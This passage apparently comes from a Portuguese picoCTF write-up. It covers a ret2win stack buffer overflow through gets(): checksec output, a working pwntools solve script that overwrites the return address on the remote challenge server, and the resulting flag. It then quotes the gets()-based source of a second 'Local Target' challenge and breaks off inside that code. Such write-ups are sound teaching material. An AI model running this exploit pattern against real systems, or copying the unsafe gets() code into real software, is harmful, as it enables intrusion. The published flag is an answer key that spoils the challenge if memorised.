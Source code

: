 ```c
  return 0;
}
```

E aqui está o resultado do checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

A função `vuln` usa `gets` para escrever no buffer de tamanho 64. Como o binário não usa PIE, podemos simplesmente sobrescrever o endereço de retorno com o endereço da função flag conforme vemos no binário.

Nosso payload precisa de 64 bytes para preencher o buffer + 8 bytes para escrever no `rbp` + o endereço de retorno que queremos sobrescrever.

Aqui está o meu solve usando o pwntools:
```python
from pwn import *

context(arch = "amd64", os="linux", endian="little")

p = remote("saturn.picoctf.net", 63716)

payload = b'A' * 72
payload += p64(0x000000000040123b)

p.sendline(payload)
p.recvline()
p.interactive()
```

Que nos dá a flag: `picoCTF{b1663r_15_b3773r_d95e02b6}`

## Local Target 

Aqui está o source code:

```c
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;

  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");

  printf("num is %d\n", num);
  fflush(stdout);

  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
```